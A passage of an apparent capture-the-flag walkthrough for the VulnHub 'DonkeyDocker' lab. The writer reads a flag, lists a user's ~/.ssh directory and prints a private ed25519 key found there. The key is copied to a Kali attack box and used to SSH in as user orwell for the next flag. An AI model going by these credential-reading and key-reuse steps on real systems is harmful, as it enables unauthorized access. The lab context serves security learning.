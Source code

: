 ```
Here a flag for you: flag0{9fe3ed7d67635868567e290c6a490f8e}

PS: I like 1984 written by George ORWELL
```
On this flag we get a hint he like George Orwell. Could this be a user. We navigate to the `.ssh` directory and check out the authorized_keys
```
smith@12081bd067cc:~$ ls -alh
total 28K
drwx------ 1 smith users 4.0K Mar 26  2017 .
drwxr-xr-x 1 root  root  4.0K Mar 26  2017 ..
-rw-r--r-- 1 smith users  220 Nov  5  2016 .bash_logout
-rw-r--r-- 1 smith users 3.5K Nov  5  2016 .bashrc
-rw-r--r-- 1 smith users  675 Nov  5  2016 .profile
drwx--S--- 2 smith users 4.0K Mar 22  2017 .ssh
-rw-r--r-- 1 smith users  237 Mar 22  2017 flag.txt
smith@12081bd067cc:~$ cat .ssh
cat: .ssh: Is a directory
smith@12081bd067cc:~$ cd .ssh/
smith@12081bd067cc:~/.ssh$ ls
authorized_keys  id_ed25519  id_ed25519.pub
smith@12081bd067cc:~/.ssh$ cat authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEBBzcffpLILgXqY77+z7/Awsovz/jkhOd/0fDjvEof orwell@donkeydocker
smith@12081bd067cc:~/.ssh$ cat id_ed25519
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAhAQc3H36SyC4F6mO+/s+/wMLKL8/45ITnf9Hw47xKHwAAAJhsQyB3bEMg
dwAAAAtzc2gtZWQyNTUxOQAAACAhAQc3H36SyC4F6mO+/s+/wMLKL8/45ITnf9Hw47xKHw
AAAEAeyAfJp42y9KA/K5Q4M33OM5x3NDtKC2IljG4xT+orcCEBBzcffpLILgXqY77+z7/A
wsovz/jkhOd/0fDjvEofAAAAE29yd2VsbEBkb25rZXlkb2NrZXIBAg==
-----END OPENSSH PRIVATE KEY-----
smith@12081bd067cc:~/.ssh$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEBBzcffpLILgXqY77+z7/Awsovz/jkhOd/0fDjvEof orwell@donkeydocker
smith@12081bd067cc:~/.ssh$
```
These look like the `ssh_keys` for user `orwell@donkeydocker`. Copy these on the attack-box. Then ssh as orwell.
```
kali@marksmith:~/vulnhub/donkeydocker$ cat ssh_key
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAhAQc3H36SyC4F6mO+/s+/wMLKL8/45ITnf9Hw47xKHwAAAJhsQyB3bEMg
dwAAAAtzc2gtZWQyNTUxOQAAACAhAQc3H36SyC4F6mO+/s+/wMLKL8/45ITnf9Hw47xKHw
AAAEAeyAfJp42y9KA/K5Q4M33OM5x3NDtKC2IljG4xT+orcCEBBzcffpLILgXqY77+z7/A
wsovz/jkhOd/0fDjvEofAAAAE29yd2VsbEBkb25rZXlkb2NrZXIBAg==
-----END OPENSSH PRIVATE KEY-----

kali@marksmith:~/vulnhub/donkeydocker$ ssh orwell@192.168.109.149 -i ssh_key
Welcome to

  ___           _            ___          _
 |   \ ___ _ _ | |_____ _  _|   \ ___  __| |_____ _ _
 | |) / _ \ ' \| / / -_) || | |) / _ \/ _| / / -_) '_|
 |___/\___/_||_|_\_\___|\_, |___/\___/\__|_\_\___|_|
                        |__/
                             Made with <3 v.1.0 - 2017
...
donkeydocker:~$ ls
flag.txt
donkeydocker:~$ cat flag.txt
You tried harder! Good work ;-)

```